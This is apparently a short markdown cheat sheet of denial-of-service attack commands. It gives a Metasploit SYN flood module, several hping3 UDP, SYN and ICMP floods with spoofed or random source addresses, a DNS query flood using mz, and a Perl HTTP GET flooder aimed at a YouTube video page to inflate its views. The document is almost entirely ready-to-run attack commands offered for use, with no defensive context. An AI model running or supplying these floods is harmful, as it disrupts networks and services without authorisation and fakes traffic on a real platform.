 ### Send the DOS

```
use auxiliary/dos/tcp/synflood
show options
set RHOSTS ...
exploit
```

### UDP DOS Attack

```
nmap ... -sU
hping3 --udp ... -p 53 --flood --rand-source -E ....txt -d 55
```

### Search Port 

```nmap ... -sU -p 67```

### Dos Change Ip

```
hping3
-S ip to attack --ip to spoof
```

#### Monitoring the Attack


```WireShark``` = To myself
```tcpdump host ...``` = Across

### DNS Attack

```
apt -get install mz
nmap -ST -sU ... -p 53/67
mz -A rand -B ... -t "q=site id" -c 1000
```

### Http Get Flood Attack - Youtube Watch Bot

```
cd httpflooder
perl httpflooder.pl -a GF -h youtube.com --url "/watch?v=LgFTlcMsfgaO2UE" -n 100
```

### Imcp Attack

```hping3 --icmp ... -- flood --rand-source```